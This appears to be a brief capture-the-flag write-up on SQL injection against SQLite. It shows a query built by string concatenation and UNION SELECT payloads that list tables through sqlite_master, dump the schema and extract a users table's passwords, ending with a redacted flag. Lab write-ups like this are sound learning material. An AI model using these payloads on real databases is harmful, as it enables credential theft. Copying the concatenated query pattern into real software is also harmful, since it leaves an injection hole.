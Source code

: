 ### Error based sql injection in sqlite3

first thing i learn is always u don't need to give ' or 1=1  u have to close it only if it is query is  like

``` sql = 'SELECT * FROM Users WHERE Name ="' + uName + '" AND Pass ="' + uPass + '"' ```

our quey looks like this   ``` $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1'; ```


* Finding database tables: ( database() )

      1  union+select 1,name from sqlite_master -- '
 
* Finding   tables and columns names (table_name and col.. from information schema )

      1  union+select 1,sql from sqlite_master -- '
 
 and i found a column called password , let's find if any intresting there 
 
      1 AND 1=0 UNION ALL SELECT  1, password from users where id=1  -- '
 
 and we get the flag 
 
[Redacted]
